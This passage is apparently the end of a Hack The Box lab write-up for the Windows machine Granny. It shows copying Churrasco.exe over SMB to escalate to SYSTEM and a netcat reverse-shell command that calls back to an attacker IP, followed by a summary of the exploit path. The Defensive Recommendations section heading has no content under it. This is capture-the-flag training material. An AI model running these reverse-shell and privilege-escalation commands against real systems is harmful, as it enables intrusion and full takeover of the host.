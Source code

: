 On the victim:

```powershell
dir \\10.10.14.2\smbFolder\
copy \\10.10.14.2\smbFolder\churrasco.exe churrasco.exe
```

![[GitHub Documentation/EASY/HTB_Granny_Writeup/screenshots/upload_churrasco.png]]

Move to `Temp` directory if copying fails.  

Running without arguments fails, so we must specify a command:

![[execute churrasco.png]]

To get a more stable shell, we upload `nc.exe` via SMB and then execute it with Churrasco:

```bash
.\churrasco.exe "\\10.10.14.2\smbFolder\nc.exe -e cmd 10.10.14.2 4444"
```

If it fails, try renaming the share or copying locally:

```bash
.\churrasco.exe "nc.exe -e cmd 10.10.14.2 4444"
copy "\\10.10.14.2\smb\nc.exe" nc.exe
```

![](screenshots/whoami_churrasco.png)

✅ Privilege escalation successful – we are `NT AUTHORITY\SYSTEM`.

---
## 5. Flags

With SYSTEM access, we can retrieve both flags:

![[GitHub Documentation/EASY/HTB_Grandpa_Writeup/screenshots/root_user_flag.png]]

✅ **User flag obtained**  
✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Detected IIS 6.0 on port 80.  
2. **WebDAV Buffer Overflow (CVE-2017-7269)** → Remote code execution with reverse shell.  
3. **Privilege Escalation** → Abused `SeImpersonatePrivilege` using **Churrasco.exe**.  
4. **Post-Exploitation** → Retrieved user and root flags as SYSTEM.

---
## Defensive Recommendations
